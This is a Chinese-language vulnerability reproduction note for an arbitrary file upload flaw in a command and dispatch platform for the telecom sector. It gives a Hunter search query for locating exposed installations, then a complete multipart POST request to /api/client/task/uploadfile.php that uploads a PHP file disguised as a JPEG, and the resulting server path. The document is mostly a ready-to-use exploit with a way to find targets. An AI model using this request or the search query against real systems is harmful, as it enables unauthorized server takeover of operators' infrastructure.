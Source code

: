 # 指挥调度平台task_uploadfile存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。</font>指挥调度平台task_uploadfile存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 指挥调度平台

# 三、资产测绘
+ hunter`web.body="app/structure/departments.php"`
+ 特征

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/ZLm82UHYMYXi_L_H/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-336348.png)

# 四、漏洞复现
```plain
POST /api/client/task/uploadfile.php HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary25qW4eG1Jt50iyf7
Cookie: PHPSESSID=403fc14298f14704c52657fc5ff62c71
Content-Length: 374

------WebKitFormBoundary25qW4eG1Jt50iyf7
Content-Disposition: form-data; name="uuid"

1
------WebKitFormBoundary25qW4eG1Jt50iyf7
Content-Disposition: form-data; name="number"

122
------WebKitFormBoundary25qW4eG1Jt50iyf7
Content-Disposition: form-data; name="uploadfile";filename="1.php"
Content-Type: image/jpg

111
------WebKitFormBoundary25qW4eG1Jt50iyf7--
```

![1704270749752-fadb9dfe-fbd1-4e6d-b77a-4ab2dd541922.png](./img/ZLm82UHYMYXi_L_H/1704270749752-fadb9dfe-fbd1-4e6d-b77a-4ab2dd541922-339121.png)

上传文件位置

```plain
/upload/task/9cba3789-1c28-4aea-a205-1eb5faa3f477.php
```

![1704270802457-10dfe6ec-c7d9-4a36-9180-3cb6475dbf93.png](./img/ZLm82UHYMYXi_L_H/1704270802457-10dfe6ec-c7d9-4a36-9180-3cb6475dbf93-507189.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hfduq1o9a7uh3hh3>